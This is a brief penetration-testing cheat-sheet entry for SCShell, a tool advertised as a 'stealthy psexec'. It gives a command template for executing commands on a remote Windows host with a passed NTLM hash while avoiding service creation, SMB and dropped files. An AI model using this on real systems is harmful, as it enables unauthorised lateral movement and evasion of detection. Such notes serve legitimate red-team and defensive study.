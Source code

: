 # SCShell

% SCShell, psexec, sealthy, DCERPC

## stealty psexec
#platform/linux #target/remote #cat/ATTACK/CONNECT 

no service created, no smb used, no file dropped
https://github.com/Mr-Un1k0d3r/SCShell

```
python3 scshell.py -service-name <service-name|defragsvc> -hashes :<ntlm-hash> <domain>/<user>@<ip>
```
